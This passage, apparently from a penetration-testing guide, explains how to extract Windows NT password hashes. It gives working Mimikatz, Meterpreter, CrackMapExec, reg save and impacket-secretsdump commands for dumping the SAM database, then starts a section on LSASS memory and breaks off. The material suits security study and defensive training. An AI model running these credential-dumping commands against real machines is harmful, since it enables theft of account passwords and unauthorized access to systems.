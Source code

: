 ## 7. NT hash extraction

### 7.1. From local SAM
SAM (Security Account Manager) is a database with all the **local user** accounts and passwords. It acts as a database. Passwords, which are stored in the SAM, are hashed. SAM data is used by LSASS to verify user credentials.

#### Mimikatz
Mimikatz is one of the tools that are able to dump SAM file hashes.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Metasploit, when the session is already established, has built-in ability to dump SAM hashes.

```bash
# Meterpreter
meterpreter > hashdump
```

CrackMapExec tool is able to remotely dump SAM hashes (via SMB using credentials).

```bash
crackmapexec smb <target-ip> -u <username> -p <password> --sam
```

#### SAM dumping and offline hashes extraction
If an attacker has privileges to access any file in the system, then he can export SAM and SYSTEM keys from the Windows registry and perform the extraction of hashes offline. Windows registry stores a copy of some of the SAM database contents to be used by services.

```powershell
# Dump SYSTEM hashes
reg save hklm\system <dump-file>

# Dump SAM hashes
reg save hklm\sam <dump-file>
```

Now, transfer files to the attacker machine.

```bash
# Dump hashes offline
impacket-secretsdump -sam <sam-file> -system <system-file> LOCAL 
```

It can be done using `metasploit` framework as well:

```bash
# Dump hashes exploiting LSASS.exe
> hashdump
```

### 7.2. From LSASS memory
LSASS (_Local Security Authority Subsystem Service_) is a process running on every Windows OS. It verifies users logging, handles password changes, creates access tokens, writes to the Windows Security Log. In a domain environment LSASS communicates with a Domain Controller. It manages NTLM, Kerberos, NetLogon authentication. It's not possible to use Windows without `lsass.exe` running. An attacker is able to dump the LSASS process memory and retrieve NT hashes.
